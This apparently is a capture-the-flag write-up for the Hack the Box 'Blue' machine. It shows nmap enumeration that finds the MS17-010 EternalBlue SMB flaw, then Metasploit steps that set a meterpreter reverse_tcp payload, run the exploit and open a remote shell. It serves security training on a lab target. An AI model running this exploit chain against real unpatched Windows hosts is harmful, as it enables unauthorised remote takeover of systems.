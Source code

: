 # Hack the Box - Blue
```CSS
Machine IP: 10.10.10.40 - Windows

Vulenerability:
- MS17-010 EternalBlue CVE-2017-0143
```

- [NMAP Scans](#NMAP)
  - [TCP all ports](#TCP-All-Ports)
  - [TCP service version and default scripts of open ports](#Open-TCP-Ports-Service-Version-and-Default-Scripts)
  - [TCP port #445 safe scripts](#Port-445-Safe-Scripts)

- [Metasploit](#Metasploit)
  - [Search Exploit](#Search-Exploit)
  - [Exploit Options](#Exploit-Options)
  - [Reverse Shell](#Reverse-Shell)

## NMAP
### TCP All Ports
```CSS
▶ nmap -Pn -sS -p- 10.10.10.40 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.40                                        
Host is up (0.19s latency).                                             
Not shown: 65526 closed tcp ports (reset)                                                                                                        
PORT      STATE SERVICE                                                 
135/tcp   open  msrpc                                                   
139/tcp   open  netbios-ssn                                             
445/tcp   open  microsoft-ds                                            
49152/tcp open  unknown                                                 
49153/tcp open  unknown                                                 
49154/tcp open  unknown                                                                                                                          
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
                                    
Nmap done: 1 IP address (1 host up) scanned in 70.46 seconds
```

### Open TCP Ports Service Version and Default Scripts
```CSS
▶ nmap -sC -sV -p 135,139,445,49152-49157 10.10.10.40 -oN deep.nmap

Nmap scan report for 10.10.10.40                                                                                                           [0/21]
Host is up (0.18s latency).                                             
                                                                                                                                                 
PORT      STATE SERVICE      VERSION                           
135/tcp   open  msrpc        Microsoft Windows RPC                      
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn              
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)                                      
49152/tcp open  msrpc        Microsoft Windows RPC                      
49153/tcp open  msrpc        Microsoft Windows RPC                      
49154/tcp open  msrpc        Microsoft Windows RPC                      
49155/tcp open  msrpc        Microsoft Windows RPC                      
49156/tcp open  msrpc        Microsoft Windows RPC                      
49157/tcp open  msrpc        Microsoft Windows RPC                      
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows                                                                         
                                    
Host script results:   
| smb2-security-mode:  
|   210:                            
|_    Message signing enabled but not required              
| smb2-time:                                                                                                                                     
|   date: 2023-04-13T17:38:57                                           
|_  start_date: 2023-04-13T17:27:27
| smb-security-mode:       
|   account_used: guest             
|   authentication_level: user                                          
|   challenge_response: supported                                       
|_  message_signing: disabled (dangerous, but default)    
| smb-os-discovery:                                                                                                                              
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)                                                                  
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC                                             
|   NetBIOS computer name: HARIS-PC\x00           
|   Workgroup: WORKGROUP\x00                                            
|_  System time: 2023-04-13T18:38:56+01:00        
|_clock-skew: mean: -20m14s, deviation: 34m36s, median: -15s                                                                                     

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                   
Nmap done: 1 IP address (1 host up) scanned in 75.47 seconds
```

### Port 445 Safe Scripts
```CSS
▶ nmap -Pn -n -p 445 --script safe -oN safe.nmap

<---SNIP--->

| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

<---SNIP--->

# Nmap done at Thu Apr 13 23:22:33 2023 -- 1 IP address (1 host up) scanned in 106.08 seconds
```

---

## Metasploit
### Search Exploit
```CSS
msf6 > search eternalblue
```
![image](https://user-images.githubusercontent.com/83878909/231924001-a45f3cad-bd2e-4491-814f-2585eccf1cc8.png)


### Exploit Options
```CSS
> set payload windows/x64/meterpreter/reverse_tcp
> set LHOST tun0
> set RHOSTS 10.10.10.40
> exploit -j
```
![image](https://user-images.githubusercontent.com/83878909/231933782-b118443d-4573-44f1-92f4-8ba3a78df666.png)


### Reverse Shell
```CSS
> sessions -l
> sessions -i 1

meterpreter > shell
```
![image](https://user-images.githubusercontent.com/83878909/231934200-86eb56b0-d2e9-4841-8c24-4d411716b23e.png)

---


